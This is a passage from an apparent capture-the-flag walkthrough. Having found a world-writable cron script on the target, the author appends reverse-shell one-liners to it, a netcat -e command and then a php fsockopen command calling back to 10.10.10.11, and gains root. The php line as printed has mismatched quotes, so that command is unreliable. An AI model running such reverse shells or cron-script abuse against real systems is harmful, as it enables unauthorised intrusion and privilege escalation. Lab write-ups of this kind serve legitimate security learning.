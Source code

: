 ```
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Jan  4 10:13 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Jul 24 20:36 write.sh
```

Well, anyone can write to "write.sh" so there's out ticket.  But what to write?  Netcat?  Open that shell.sh we used inside of the "sar2HTML" directory? I checked netcat and sure enough it's installed.  This will be easy!  We'll just have netcat execute another bash shell back to us:
>$ echo "nc 10.10.10.11 9999 -e /bin/bash" >> write.sh

I open a listener on 9999 and go make a cup of tea.  Black tea.  No sugar, no cream.  Just good hot tea.  I check my listener... nothing.  Has 5 minutes passed?  I glance at the cron job and it's every 5 minutes... so 12:00, 12:05... it's definitely been 5 minutes.  Nothing.  I double check the above commands, looking for typos but it all looks good.  Another 5 minutes... nothing.  Dang it!  Let's run the command outside of "Write.sh" just to triple check.  Awww man, the version of netcat doesn't support "-e" or maybe the port is in use?  I try another port, nothing.

I'm so close... well, php worked before, so let's use it again.
>$ echo "php -r $sock=fsockopen("10.10.10.11",9999);exec("/bin/sh -i <&3 >&3 2>&3");'" >> write.sh

BOOM!  Shell pops, whoami says I'm root.  Collect flag, game over.

What other ways could I have gotten root?  I didn't even do anything with the php file uploads.
